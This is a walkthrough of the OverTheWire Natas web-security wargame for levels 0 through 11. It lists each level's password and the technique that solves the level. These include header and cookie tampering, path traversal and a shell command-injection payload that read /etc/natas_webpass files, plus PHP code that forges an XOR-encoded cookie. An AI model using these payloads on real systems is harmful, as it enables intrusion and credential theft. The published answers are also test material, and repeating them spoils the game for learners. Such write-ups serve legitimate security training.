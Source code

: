 # Natas wargame writeups

Home page: https://overthewire.org/wargames/natas/

## Connect the game

```
http://natas<level>.natas.labs.overthewire.org
```
with `<level>` is your level's room

+ no SSH login
+ all passwords are also stored in `/etc/natas_webpass/natas<level>`

## Notes for game

+ view source, devtools
+ Burpsuite skills
+ php sandbox https://onlinephp.io/

## Walkthrough

| Username | Password |
| :--- | :--- |
| natas0 | natas0 |

```
Ctrl+U to view source
```

| Username | Password |
| :--- | :--- |
| natas1 | g9D9cREhslqBKtcA2uocGHPfMZVzeFK6 |

```
Ctrl+U to view source
```

| Username | Password |
| :--- | :--- |
| natas2 | h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7 |

```
Ctrl+U to view source
see an image, but a file folder
http://natas2.natas.labs.overthewire.org/files/users.txt
```

| Username | Password |
| :--- | :--- |
| natas3 | G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q |

```
Ctrl+U to view source
check /robots.txt because google will find it
http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt
```

| Username | Password |
| :--- | :--- |
| natas4 | tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm |

```
use BurpSuite catch requests
click Refresh
change Referer: http://natas5.natas.labs.overthewire.org/
```

| Username | Password |
| :--- | :--- |
| natas5 | Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD |

```
use BurpSuite catch requests
change Cookie: loggedin=1
```

| Username | Password |
| :--- | :--- |
| natas6 | fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR |

```
check sourcecode php
http://natas6.natas.labs.overthewire.org/includes/secret.inc
input secret: FOEIUWGHFEEUHOFUOIU
```

| Username | Password |
| :--- | :--- |
| natas7 | jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr |

```
Ctrl+U to view source
path traversal ?page=home
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```

| Username | Password |
| :--- | :--- |
| natas8 | a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB |

```
check sourcecode php
reverse the code to get secret
<?php
echo base64_decode(strrev(hex2bin('3d3d516343746d4d6d6c315669563362')));
?>
input secret: oubWYf2kBq
```

| Username | Password |
| :--- | :--- |
| natas9 | Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd |

```
check sourcecode php
command injection
find words containing: ; cat /etc/natas_webpass/natas10;
```

| Username | Password |
| :--- | :--- |
| natas10 | D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE |

```
check sourcecode php
use grep character in many files
find words containing: 11* /etc/natas_webpass/natas11
```

| Username | Password |
| :--- | :--- |
| natas11 | 1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg |

```
check sourcecode php
check cookie data
reverse the code to get $key
<?php
$originalString = json_encode(array("showpassword"=>"no", "bgcolor"=>"#ffffff"));
$cookieString = base64_decode('MGw7JCQ5OC04PT8jOSpqdmkgJ25nbCorKCEkIzlscm5oKC4qLX54bjY=');
echo $originalString ^ $cookieString;
?>
rebuild cookie with our payload
<?php
$key = 'KNHL';
$newString = json_encode(array("showpassword"=>"yes", "bgcolor"=>"#ffffff"));
$cookieData = '';
for ($i = 0; $i < strlen($newString); $i++) {
  $cookieData .= $key[$i % strlen($key)] ^ $newString[$i];
}
echo base64_encode($cookieData);
?>
change cookie data to MGw7JCQ5OC04PT8jOSpqdmk3LT9pYmouLC0nICQ8anZpbS4qLSguKmkz
```

| Username | Password |
| :--- | :--- |
| natas12 | YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG |




































